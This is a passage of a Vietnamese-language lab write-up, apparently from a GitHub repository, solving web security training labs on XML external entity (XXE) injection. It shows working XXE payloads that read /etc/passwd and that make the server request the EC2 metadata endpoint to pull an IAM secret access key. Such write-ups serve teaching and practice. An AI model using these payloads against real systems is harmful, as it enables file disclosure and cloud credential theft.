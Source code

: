 

Thay vì kiểm tra productID như bt thì payload này sẽ tham chiếu đến thực thể bên ngoài(external entity) và truy xấu giá trị của xxe là file:///etc/passwd 

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_retrievefile_catpasswd.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_retrievefile_web_solve.png?raw=true)



### Lab: Exploiting XXE to perform SSRF attacks
```
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.
```
Như bài lab đã mô tả cho chúng ta biết được rằng mạng nội bộ mà chúng ta cần là http://169.254.169.254/ và request chúng ta bắt được khi check stock vẫn là form XXE như cũ điều đó dẫn chúng ta đến payload như sau : 
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
Tiếp theo chúng ta chuyển sang repeater để thử >

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_perform_requets.png?raw=true)

"Invalid product ID:" Là phản hồi được trả về, kèm theo sau đó là 1 foldername, sau đó thêm folder name vào phía sau của URL mà chúng ta có được, cứ tiếp tục như thế cho đến khi chúng ta có được SecretAccessKey.


![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_perform_requets_payload1.png?raw=true)
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_perform_requets_payload2.png?raw=true)
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_perform_requets_payload3.png?raw=true)

```
latest/meta-data/iam/security-credentials/admin
```

Sau đó chúng ta có được payload cuối cùng như sau
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_perform_requets_json.png?raw=true)

